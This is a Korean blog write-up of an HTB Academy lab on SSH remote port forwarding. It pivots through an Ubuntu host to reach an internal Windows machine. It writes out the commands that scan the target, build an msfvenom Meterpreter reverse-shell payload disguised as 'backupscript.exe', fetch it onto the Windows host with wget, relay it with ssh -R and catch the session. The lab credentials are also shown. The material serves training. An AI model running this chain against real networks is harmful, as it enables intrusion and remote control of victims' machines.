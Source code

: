 ```yaml
---
title: "Remote(Reverse) Port Forwarding"
date: 2025-09-29
layout: single
author_profile: true
toc: true
toc_label: "Remote Port Forwarding"
toc_icon: "network-wired"
toc_sticky: true
tags: [networking, ssh, tunneling, pivoting, reverse]
header:
  teaser: /assets/network-screenshots/remote-port-forwarding/remote-port-forwarding.png
  teaser_home_page: true
---
```


**Remote(Reverse) Port Forwarding**은 로컬에서 실행 중인 서비스를 원격 SSH 서버의 특정 포트에 바인딩하여, 원격 네트워크 또는 내부망 호스트가 그 포트를 통해 해당 서비스에 접근할 수 있게 하는 기술이다. 

공격자는 SSH의 `-R` 옵션으로 피벗 호스트에 리스닝 포트를 생성하고, 이를 통해 NAT/방화벽으로 인해 직접 라우팅이 불가능한 환경에서 **역방향 연결(예: 리버스 셸)** 을 중계할 수 있다. 

이 기법은 파일 전송, 원격 명령 실행, Meterpreter 같은 리버스 세션 확보 등 직접 접속이 어려운 내부 자원에 대한 접근을 가능하게 해 자주 활용된다.

---

# Remote(Reverse) Port Forwarding

공격 호스트(`10.10.15.5`)는 **Ubuntu 서버**(`10.129.15.50`, `172.16.5.129`)에 SSH 접속이 가능하며,  
Ubuntu 서버를 통해 내부망 Windows 호스트(`172.16.5.19`)의 RDP 서비스에 접근할 수 있다.

![Remote Port Forwarding Diagram](/assets/network-screenshots/remote-port-forwarding/remote-port-forwarding.png)

그러나 Windows 호스트는 **공격 호스트(10.10.x.x)** 와 직접 라우팅이 불가능하다.  
따라서 Windows에서 **공격 호스트로 직접 Reverse Shell**을 보낼 경우 트래픽이 도달하지 못한다.

- Windows 호스트는 `172.16.5.0/23` 네트워크 안에만 트래픽을 보낼 수 있다.
- 공격자는 `10.129.x.x` (HTB Academy Lab) 네트워크에 있으며, Windows → 공격 호스트 직접 통신이 불가능하다.
- 단순 RDP 세션만으로는 **파일 업로드/다운로드** 또는 **Meterpreter 세션** 확보가 어렵다.

이러한 상황에서는 **공격자 → Ubuntu → Windows** 방향이 아닌  
**Windows → Ubuntu → 공격자** 순으로 트래픽을 **역방향(Reverse)** 으로 전달해야 한다.

---

# 실습

## Portscan

대상 Host(`10.129.243.159`)에 대해 기본 스크립트와 서비스 버전 탐지를 수행하였다.

```bash
$ nmap -sC -sV 10.129.243.159 

Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-29 20:10 EDT
Nmap scan report for 10.129.243.159
Host is up (0.27s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.55 seconds
```

Nmap 스캔 결과 `SSH(22)`, `http(80)` 등 서비스가 확인되었다.

## 동적 포트 포워딩을 이용한 SSH 접속

Dynamic Port Forwarding 관련 절차는 별도 포스트에 있습니다 → [Dynamic Port Forwarding 포스트 보기](../dynamic-port-forwarding).

우선 문제에서 제공한 아이디/비밀번호(`ubuntu:HTB_@cademy_stdnt!`) 를 이용하여 **동적 포트 포워딩**을 이용한 SSH 접속에 시도하였다.

```bash
$ ssh -D 9050 ubuntu@10.129.243.159
```

접속 후, `ifconfig` 명령어를 통하여 내부망 인터페이스를 확인하였다.

![Domain](/assets/network-screenshots/remote-port-forwarding/ifconfig.png)

그 결과 내부망 IP 주소 `172.16.5.129` 를 확인할 수 있었다.

## msfvenom Windows Payload

로컬 호스트에서 Windows용 Meterpreter 페이로드를 생성하기 위해 `msfvenom` 명령어를 사용하였다.

```bash
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```

생성한 파일은 `scp` 명령을 이용해 **SSH 내부망 인터페이스**로 전송하였다.

```bash
scp backupscript.exe ubuntu@10.129.243.159:/home/ubuntu
```

## RDP 연결 && 스크립트 파일 전달

문제에서 제공된 RDP 계정(`victor:pass@123`)을 이용해 **proxychains**를 통해 내부망 RDP에 접속하였다.

```bash
$ proxychains xfreerdp3 /v:172.16.5.19 /u:victor /p:pass@123
```

이후, SSH 세션에서 `python` 내장 웹서버를 실행하여 파일 전송용 HTTP 서비스를 열었다.

```bash
$ python3 -m http.server 9999
```

Windows RDP 세션에서 `wget` 명령을 사용해 `backupscript.exe` 파일을 다운로드하였다.

```powershell
wget http://172.16.5.129:9999/backupscript.exe -o backupscript.exe
```

성공적으로 파일을 다운로드하였다.

![Domain](/assets/network-screenshots/remote-port-forwarding/rdp-wget.png)

## Remote Port Forwarding

이후, Ubuntu 서버를 중계(pivot) 호스트로 사용하기 위해 `ssh -R` 명령어를 실행하였다.

```bash
$ ssh -R 172.16.5.129:8080:0.0.0.0:8000 ubuntu@10.129.243.159 -vN

# (-v : verbose, -N : no command)
```

명령 실행 후, Metasploit의 `msfconsole`을 실행하여 리버스 연결을 수신할 리스너를 설정하였다.

![Domain](/assets/network-screenshots/remote-port-forwarding/msfconsole.png)

이후 RDP 세션으로 돌아가 다운로드한 `backupscript.exe` 파일을 실행하였다.

![Domain](/assets/network-screenshots/remote-port-forwarding/rdp-remote-success.png)

잠시 후, Metasploit에서 `meterpreter` 세션이 활성화되었고
`ls` 명령어를 통해 **내부 파일/디렉터리 열람이 가능함을 확인**하였다.

이를 통해 RDP 환경에서 **원격 코드 실행(Remote)** 이 성공했음을 검증할 수 있었다.

## Flag 획득

Desktop으로 이동 후 `flag.txt` 파일 내용을 읽어 플래그를 획득하였다.

![Domain](/assets/network-screenshots/remote-port-forwarding/flag.png)

이로써 **Remote(Reverse) Port Forwarding** 실습을 마무리하였다.


